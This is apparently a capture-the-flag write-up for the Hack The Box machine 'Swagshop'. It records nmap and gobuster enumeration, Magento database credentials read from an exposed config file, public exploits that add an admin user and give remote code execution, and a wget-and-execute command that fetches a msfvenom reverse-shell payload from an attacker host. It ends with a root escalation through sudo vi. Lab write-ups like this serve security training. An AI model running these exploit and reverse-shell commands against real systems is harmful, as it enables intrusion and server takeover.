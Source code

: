 # Summary



## about target

tip:  10.129.7.65

hostname: Swagshop

Difficulty:  Easy



## about attack

+ Magento scan, github; enum version and vulns
+ python scripts exploit, read the script and try more.





**attack note**

```bash
Swagshop / 10.129.5.209

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/


----http enum

http://swagshop.htb/app/etc/local.xml

-- db connect creds.
root/fMVWh7bDHpgZkyfqQXreTjU9
admin, 

<crypt>
<key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>

<connection>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
</connection>

-- redis info
http://swagshop.htb/app/etc/local.xml.additional

-- mega admin
http://swagshop.htb/app/code/core/Mage/Admin/etc/config.xml

<modules>
<Mage_Admin>
<version>1.6.1.1</version>
</Mage_Admin>

megento scan
https://github.com/steverobbins/magescan

php magescan.phar scan:all swagshop.htb

-- megento exploit
https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py
https://www.exploit-db.com/exploits/38573
https://www.exploit-db.com/exploits/37977


---- exploit 


msfvenom -p linux/x64/shell_reverse_tcp LHOST=$kip LPORT=9001 -f elf > 9001

python 37811.py http://swagshop.htb/index.php/admin/ "wget http://10.10.14.78/9001 -O /tmp/9001;chmod +x /tmp/9001;/tmp/9001"

python3 -c 'import pty; pty.spawn("/bin/bash")'


sudo /usr/bin/vi /var/www/html/api.php
:shell

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
```



## http enum

dir scan

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://swagshop.htb  -o gobuster.log -x php,txt
```

insteresting info, no version found.

```bash
----http enum

http://swagshop.htb/app/etc/local.xml

-- db connect creds.
root/fMVWh7bDHpgZkyfqQXreTjU9
admin, 

<crypt>
<key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>

<connection>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
</connection>

-- redis info
http://swagshop.htb/app/etc/local.xml.additional

-- mega admin
http://swagshop.htb/app/code/core/Mage/Admin/etc/config.xml

<modules>
<Mage_Admin>
<version>1.6.1.1</version>
</Mage_Admin>
```



Magento scan, https://github.com/steverobbins/magescan

```bash
php magescan.phar scan:all swagshop.htb
```

found version.

![image-20221029162802274](./images/image-20221029162802274.png)

search exploit.

![image-20221030000055151](./images/image-20221030000055151.png)

# Exploitation

exploit, add admin user. 

change the url, default path /index.php

```bash
target = "http://swagshop.htb/index.php"
```

![image-20221030000122307](./images/image-20221030000122307.png)



```bash
python 37977.py
```

user added, forme:forme

![image-20221029162415893](./images/image-20221029162415893.png)



exploit, 37811;

change the username and password.

```bash
username = 'forme'
password = 'forme'

msfvenom -p linux/x64/shell_reverse_tcp LHOST=$kip LPORT=9001 -f elf > 9001
python 37811.py http://swagshop.htb/index.php/admin/ "wget http://10.10.14.78/9001 -O /tmp/9001;chmod +x /tmp/9001;/tmp/9001"
```



![image-20221029234704932](./images/image-20221029234704932.png)



# Privesc



## local enum

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

sudo -l
```



![image-20221029234839354](./images/image-20221029234839354.png)



## System

exploit, sudo vi.

```bash
sudo /usr/bin/vi /var/www/html/api.php
:shell
```



![image-20221029235026968](./images/image-20221029235026968.png)



## proof

```bash


```



